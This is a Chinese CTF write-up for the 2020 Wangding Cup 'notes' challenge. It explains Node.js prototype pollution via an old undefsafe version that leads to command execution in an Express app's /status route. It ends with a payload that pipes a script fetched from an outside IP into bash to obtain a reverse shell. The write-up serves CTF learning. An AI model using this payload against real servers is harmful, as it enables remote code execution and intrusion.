


# [网鼎杯 2020 青龙组]notes

## 考点

- node原型链污染

  https://snyk.io/vuln/SNYK-JS-UNDEFSAFE-548940

  undefsafe函数在2.03版本下会产生漏洞

## 题目源码

```javascript
var express = require('express');
var path = require('path');
const undefsafe = require('undefsafe');
const { exec } = require('child_process');


var app = express();
class Notes {
    constructor() {
        this.owner = "whoknows";
        this.num = 0;
        this.note_list = {};
    }

    write_note(author, raw_note) {
        this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
    }

    get_note(id) {
        var r = {}
        undefsafe(r, id, undefsafe(this.note_list, id));
        return r;
    }

    edit_note(id, author, raw) {
        undefsafe(this.note_list, id + '.author', author);
        undefsafe(this.note_list, id + '.raw_note', raw);
    }

    get_all_notes() {
        return this.note_list;
    }

    remove_note(id) {
        delete this.note_list[id];
    }
}

var notes = new Notes();
notes.write_note("nobody", "this is nobody's first note");


app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(express.static(path.join(__dirname, 'public')));


app.get('/', function(req, res, next) {
  res.render('index', { title: 'Notebook' });
});

app.route('/add_note')
    .get(function(req, res) {
        res.render('mess', {message: 'please use POST to add a note'});
    })
    .post(function(req, res) {
        let author = req.body.author;
        let raw = req.body.raw;
        if (author && raw) {
            notes.write_note(author, raw);
            res.render('mess', {message: "add note sucess"});
        } else {
            res.render('mess', {message: "did not add note"});
        }
    })

app.route('/edit_note')
    .get(function(req, res) {
        res.render('mess', {message: "please use POST to edit a note"});
    })
    .post(function(req, res) {
        let id = req.body.id;
        let author = req.body.author;
        let enote = req.body.raw;
        if (id && author && enote) {
            notes.edit_note(id, author, enote);
            res.render('mess', {message: "edit note sucess"});
        } else {
            res.render('mess', {message: "edit note failed"});
        }
    })

app.route('/delete_note')
    .get(function(req, res) {
        res.render('mess', {message: "please use POST to delete a note"});
    })
    .post(function(req, res) {
        let id = req.body.id;
        if (id) {
            notes.remove_note(id);
            res.render('mess', {message: "delete done"});
        } else {
            res.render('mess', {message: "delete failed"});
        }
    })

app.route('/notes')
    .get(function(req, res) {
        let q = req.query.q;
        let a_note;
        if (typeof(q) === "undefined") {
            a_note = notes.get_all_notes();
        } else {
            a_note = notes.get_note(q);
        }
        res.render('note', {list: a_note});
    })

app.route('/status')
    .get(function(req, res) {
        let commands = {
            "script-1": "uptime",
            "script-2": "free -m"
        };
        for (let index in commands) {
            exec(commands[index], {shell:'/bin/bash'}, (err, stdout, stderr) => {
                if (err) {
                    return;
                }
                console.log(`stdout: ${stdout}`);
            });
        }
        res.send('OK');
        res.end();
    })


app.use(function(req, res, next) {
  res.status(404).send('Sorry cant find that!');
});


app.use(function(err, req, res, next) {
  console.error(err.stack);
  res.status(500).send('Something broke!');
});


const port = 8080;
app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`))

```

## 解题

漏洞点在/status路由，exec导致了任意代码执行，只需要我们污染command字典。通过command字典来执行我们的命令，例如令commads.a=ls

```js
app.route('/status')
    .get(function(req, res) {
        let commands = {
            "script-1": "uptime",
            "script-2": "free -m"
        };
        for (let index in commands) {
            exec(commands[index], {shell:'/bin/bash'}, (err, stdout, stderr) => {
                if (err) {
                    return;
                }
                console.log(`stdout: ${stdout}`);
            });
        }
        res.send('OK');
        res.end();
    })

```

传参

```javascript
/edit_note下可以传三个参数，id author enote
app.route('/edit_note')
    .get(function(req, res) {
        res.render('mess', {message: "please use POST to edit a note"});
    })
    .post(function(req, res) {
        let id = req.body.id;
        let author = req.body.author;
        let enote = req.body.raw;
        if (id && author && enote) {
            notes.edit_note(id, author, enote);
            res.render('mess', {message: "edit note sucess"});
        } else {
            res.render('mess', {message: "edit note failed"});
        }
    })

```

传入后会直接写入当前的note_list

```javascript
class Notes {
    constructor() {
        this.owner = "whoknows";
        this.num = 0;
        this.note_list = {};
    }

    write_note(author, raw_note) {
        this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
    }

    get_note(id) {
        var r = {}
        undefsafe(r, id, undefsafe(this.note_list, id));
        return r;
    }

    edit_note(id, author, raw) {
        undefsafe(this.note_list, id + '.author', author);
        undefsafe(this.note_list, id + '.raw_note', raw);
    }

```

接受用户传参并使用，可以利用这点命令执行
 playload:	` id=__proto__&author=curl 174.0.112.218/1.txt|bash&raw=123`




在服务器var/www/html下写一个shell文件并监听，在访问status时就会反弹shell。

